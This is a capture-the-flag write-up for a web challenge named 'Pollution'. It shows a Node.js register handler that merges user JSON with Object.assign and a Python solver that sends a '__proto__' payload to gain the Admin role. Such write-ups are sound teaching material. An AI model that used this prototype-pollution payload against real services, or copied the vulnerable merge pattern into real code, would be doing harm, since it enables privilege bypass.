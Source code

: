 # Web - Pollution
* Given source code and link to a website.

File: server.js
```
app.post('/register', (req, res) => {
    let user = JSON.parse(req.body);
    
    // Haha, even you can set your role to Admin, but you don't have the secret!
    if (user.role == "Admin") {
        console.log(user.secret);
        if(user.secret !== secret.value) return res.send({
            "message": "Wrong secret! no Admin!"
        });
        return res.send({
            "message": "Here is your flag!",
            secret: secret.value
        });
    }
    
    let newUser = Object.assign(baseUser, user);
    if(newUser.role === "Admin") {
        return res.send({
            "message": "Here is your flag!",
            secret: secret.value
        });
    }

    else return res.send({
        "message": "No Admin? no flag!"
    });
})
```
* If we look closer, in server.js, we can find function `Object.assign()`

```
...
let newUser = Object.assign(baseUser, user);
...
```

* We know that we can control `user` variable

```
...
let user = JSON.parse(req.body);
...
```

* `Object.assign()` can be manipulated to perform prototype pollution.
* To solve this challenge, since we don't know the value of `secret.value`, we need to skip the `user.role == "Admin"` condition. Check out the following part of `server.js` below :

```
...
    if (user.role == "Admin") {
        console.log(user.secret);
        if(user.secret !== secret.value) return res.send({
            "message": "Wrong secret! no Admin!"
        });
        return res.send({
            "message": "Here is your flag!",
            secret: secret.value
        });
    }
...
```
* Since we have `Object.assign(baseUser, user)` function and we can control the `user` variable from `req.body`, then we can perform Prototype Pollution through `req.body`.

# My Solver :
```
import requests
import json

url = 'http://target/register'

headers = {
	'Content-Type': 'text/plain'
}

payload = {
	"__proto__" : {
		"role": "Admin"
	}
}

r = requests.post(url, headers=headers, data=json.dumps(payload))

print(r.text)
```

